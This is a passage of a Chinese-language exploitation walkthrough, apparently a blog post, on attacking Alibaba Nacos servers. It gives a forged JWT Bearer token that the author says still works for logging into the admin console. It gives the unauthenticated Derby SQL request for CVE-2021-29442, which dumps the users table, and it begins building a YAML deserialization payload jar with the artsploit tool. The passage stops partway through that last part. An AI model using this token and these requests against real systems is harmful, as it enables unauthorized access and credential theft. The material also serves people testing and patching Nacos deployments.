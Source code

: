 带上token访问用户列表即可绕过403  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaotYQI2NyQRgLbfLoezYMLZqKjvNUllzhIVrEbV5hW8Xy2F7OGBLKXg/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
**直接登录到后台**  
：  
  
登陆界面输入任意账户密码 ，点击登录。抓包，添加请求头,我这个还能用。  
  
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MzQ4MTM1NzA1NX0.92Mo2gkDFuPnUaD2v63SQl1IWtObfBxDTWgIhqvteM8  
  
添加之后点击放行不要关闭拦截  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaMXbtQLmYYe1Rd82YNP7hJXF5IAbuIFXeia7RDicoqw3YpAnzvkZh9C5A/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiar7D3vLJXiaxluSP47QmRv4wKI0h0MSoiacDD2JMwScQmeBsX0oCw7PBQ/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
  
之后关闭拦截即可  
### 6.Derby未授权访问（CVE-2021-29442）  
  
nacos带有一个嵌入式的小型数据库derby，默认无需认证即可被访问，并执行任意sql查询，导致敏感信息泄露。  
  
影响版本：在nacos <= 1.4.0，无论是否开启鉴权，该漏洞都存在。当 nacos >1.4.0， 在新版中默认没开鉴权，所有这个漏洞还存在。若开启了鉴权，版本大于1.4.0，则漏洞不存在。  
  
/nacos/v1/cs/ops/derby?sql=select * from users  
  
![图片](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaiayodU5H99dibicZwko8XJEic69z5XONVOEx7a1VYyqguPop7mbCc1TLuw/640?wx_fmt=jpeg&from=appmsg&tp=wxpic&wxfrom=5&wx_lazy=1 "")  
### 7.Nacos Client Yaml反序列化漏洞  
  
这个我没复现出来，网上找了几个但是都没有。。。。  
  
在1.4.1版本中存在Nacos Client Yaml反序列化漏洞，该漏洞只影响单独使用 nacos-client SDK的用户，原因在于spring cloud、springboot、dubbo等框架中并非使用的 AbstractConfigChangeListener 监听配置，所以该漏洞只影响了使用AbstractConfigChangeListener监听配置的客户端。  
  
具体思路是  
#### nacosYaml反序列化攻击  
  
工具利用  
  
https://github.com/artsploit/yaml-payload/  
  
下载之后打成jar包  
  
javac src/artsploit/AwesomeScriptEngineFactory.java  
  
编译java文件  
  
  
jar -cvf yaml-payload.jar -C src/ .  
  
  
jar：Java 自带的归档工具（类似 tar 或 zip），用于创建、查看或解压 JAR 文件。  
  
-c（create）：创建一个新的 JAR 文件。  
  
-v（verbose）：显示详细输出（打包的文件列表）。  
  
-f（file）：指定生成的 JAR 文件名（这里是 yaml-payload.jar）。  
  
